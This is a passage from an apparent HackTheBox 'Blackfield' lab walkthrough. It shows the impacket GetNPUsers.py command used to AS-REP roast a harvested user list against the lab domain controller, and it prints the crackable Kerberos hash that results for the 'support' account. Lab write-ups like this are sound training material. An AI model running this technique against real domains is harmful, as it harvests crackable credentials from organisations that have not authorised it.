 ![](/assets/img/blackfield/2.png)

you can grab those names, and perform AS-REP Roasting using `GetNPusers.py` from impacket with prompt :

```powershell
GetNPUsers.py BLACKFIELD.local/ -usersfile usernames.txt -format hashcat -dc-ip 10.10.10.192 -outputfile AS-REP
```

Result from AS-REP

```powershell
┌─[root@unknown101]─[10.10.14.14]─[~/Desktop/hackthebox/ActiveDirectory/Blackfield]
└──╼ #cat AS-REP 
$krb5asrep$23$support@BLACKFIELD.LOCAL:17bc70e610b036b35661ef81b9d57219$13aceded8bab3f6f2c6dd3252f562fb896a2940519ca82e31467833a818521d68d85169e37aa9e772c483454199a9d8cf588585b65522a85a294283b8288cc74ab0c9406bf60cb30174dd9ff95c78c72e02bcea4f047d0f0a59ccbc5ffbd314b8f26f63dd2ce409517d4e4489dc5b66203222eef34a70c00c49e30bdd3af2520c854d0dbbdf1ade21cdb9bd8e566c06d16d8e374b8004f76ec46f9e08700afd8ab4fc2c27231bdb79778f7468eb0cc089d5a0aa7dfabaa63fe2dd77d63154d73344e5e003a816e2cc6435082b25be46740356205a44940876089ffcf81f1ff5b9ac2d1e3cb474a1d9d99a8f8a99a7f0aff805300
```
